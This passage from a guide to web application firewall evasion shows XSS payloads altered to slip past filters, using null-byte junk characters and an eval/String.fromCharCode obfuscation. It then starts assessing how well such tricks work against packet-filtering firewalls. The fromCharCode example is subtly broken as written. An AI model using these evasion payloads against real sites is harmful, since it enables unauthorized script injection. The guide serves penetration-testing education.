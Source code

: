 **Updated with newline characters:**
```bash
<script>
alert('XSS')
</script>
```

## 19. Junk Character Technique

**How to do it:**  
Insert random or irrelevant characters into the payload that the target application will ignore, but which might cause the WAF to overlook the attack.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with junk characters:**
```bash
<scri%00pt>alert('XSS')</scri%00pt>
```

## 20. Dynamic Payload Generation Technique

**How to do it:**  
Generate payloads dynamically, so they change on each request, making it difficult for the WAF to recognize and block them.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with dynamic payload generation:**
```bash
<script>eval(String.fromCharCode(97,108,101,114,116)('XSS'))</script>
```

## How Effective are these techniques mentioned above?

The firewall evasion techniques we discussed generally aim to bypass specific types of firewalls, particularly those that perform deep packet inspection or application-level filtering, like Web Application Firewalls (WAFs) and Next-Generation Firewalls (NGFWs). However, the effectiveness of these techniques can vary depending on the type of firewall, its configuration, and its specific capabilities. Here's how these techniques might interact with different types of firewalls:

### 1. **Packet-Filtering Firewalls**
   - **Effectiveness of Techniques:** 
     - Packet-filtering firewalls primarily inspect IP addresses, port numbers, and protocols. Techniques like **Case Manipulation** or **Tabs and Line Feed** might not be relevant here since this type of firewall does not inspect payload content. **Parameter Pollution** might still work if the firewall is filtering based on specific parameters.
     - **Token Breaker** or **Wildcard Obfuscation** might bypass simple filtering rules if the firewall is configured to block specific commands or keywords in headers or URLs.
  